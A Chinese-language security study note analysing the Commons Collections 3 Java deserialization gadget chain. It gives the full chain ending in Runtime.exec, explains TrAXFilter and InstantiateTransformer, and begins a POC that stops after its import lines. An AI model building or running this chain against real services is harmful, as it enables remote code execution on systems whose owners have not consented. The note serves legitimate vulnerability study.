 ## 简介
CC3 相当于CC1，CC2的结合，环境依赖需要commons collections 3.1，jdk1.7，以及javasisst
对应的利用链如下：
```
ObjectInputStream.readObject()
        AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()
                        ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InstantiateTransformer.transform()
                        newInstance()
                            TrAXFilter#TrAXFilter()
                            TemplatesImpl.newTransformer()
                                     TemplatesImpl.getTransletInstance()
                                     TemplatesImpl.defineTransletClasses
                                     newInstance()
                                        Runtime.exec()
```
### 前置知识

- [CC1 lazymap 分析](https://www.yuque.com/da-labs/secnotes/aobl1w)
- [CC2 TemplatesImpl 分析](https://www.yuque.com/da-labs/secnotes/fbvuia)

在分析CC3之前需要了解一下新出现的两个类
#### TrAXFilter
![图片.png](Commons Collections3 分析.assets/2023_05_19_10_37_26_MldD7anP.png)

 在该类的构造方法中，调用了传入参数的newTransformer()方法，看到这个方法有点熟悉了，可以实例化，并且参数可控
![image.png](Commons Collections3 分析.assets/2023_05_19_10_37_27_4h7inoqQ.png)

 CC2中，就是在`InvokerTransformer.transform()`中通过反射调用`TemplatesImpl.newTransformer()`方法，而CC3中，就可以直接使用`TrAXFilter`来调用`newTransformer()`方法
#### InstantiateTransformer
在该类中实现了Transformer，Serializable接口
![图片.png](Commons Collections3 分析.assets/2023_05_19_10_37_27_0gjywlxP.png)
在它的transform方法中，实现了当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回
![图片.png](Commons Collections3 分析.assets/2023_05_19_10_37_28_pXU7hTI8.png)
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
```
